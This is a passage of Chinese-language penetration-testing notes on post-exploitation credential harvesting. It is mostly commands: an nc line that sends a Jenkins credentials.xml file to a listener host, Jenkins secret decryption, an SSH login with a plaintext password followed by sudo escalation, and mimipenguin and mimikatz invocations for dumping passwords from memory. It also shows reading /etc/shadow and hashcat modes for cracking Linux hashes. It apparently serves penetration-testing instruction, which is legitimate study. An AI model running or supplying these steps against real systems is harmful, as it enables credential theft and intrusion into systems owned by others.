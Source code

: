 ~~~
nc 172.16.250.128 1234 < /home/jenkins/credentials.xml
破解密匙：
https://github.com/cheetz/jenkins-decrypt
python decrypt.py master.key hudson.util.Secret credentials.xml

3、Database DMZ权限获取
密码横向：
ssh db_backup@172.16.250.50
)uDvra{4UL^;r?*h
权限提升：
getuid
sudo su

~~~

### 明文获取

~~~
注意:
1、Windows-Mimikatz适用环境：
微软为了防止明文密码泄露发布了补丁KB2871997，关闭了Wdigest功能。
当系统为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，
此时可以通过修改注册表的方式抓取明文，但需要用户重新登录后才能成功抓取。
2、Linux-mimipenguin适用环境：
Kali 4.3.0 (rolling) x64 (gdm3)
Ubuntu Desktop 12.04 LTS x64 (Gnome Keyring 3.18.3-0ubuntu2)
Ubuntu Desktop 16.04 LTS x64 (Gnome Keyring 3.18.3-0ubuntu2)
XUbuntu Desktop 16.04 x64 (Gnome Keyring 3.18.3-0ubuntu2)
VSFTPd 3.0.3-8+b1 (Active FTP client connections)
Apache2 2.4.25-3 (Active/Old HTTP BASIC AUTH Sessions) 
openssh-server 1:7.3p1-1 (Active SSH connections - sudo usage)

所以出现以下：
0、Windows-强开
1、正面刚密文-Hashcat
2、侧面找思路-RDP保存&SSH密匙

#Linux-密码获取-内存读取&密文破解&存储凭证
1、密码读取：
https://github.com/huntergregal/mimipenguin
chmod 755 ./mimipenguin.sh
./mimipenguin.sh

2、密码破解：
cat /etc/shadow
hashcat.exe -a 3 -m 1800 linuxhash.txt pass.txt
加密形式：
linux sha512crypt $6$, SHA512 (Unix)加密方式：
hashcat -m 1800 sha512linux.txt p.txt
linux sha256crypt $5$, SHA256 (Unix)加密方式：
hashcat -m 7400 sha256linux.txt p.txt
linux下md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)加密方式：
hashcat -m 500 linuxmd5.txt p.txt
inux下bcrypt $2*$, Blowfish加密方式：
hashcat -m 3200 linuxmd5.txt p.txt

3、密码存储：SSH密匙-上节课知识点

#Windows-密码获取-在线离线读取&密文破解&存储凭证
1、在线读
https://github.com/gentilkiwi/mimikatz
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"

~~~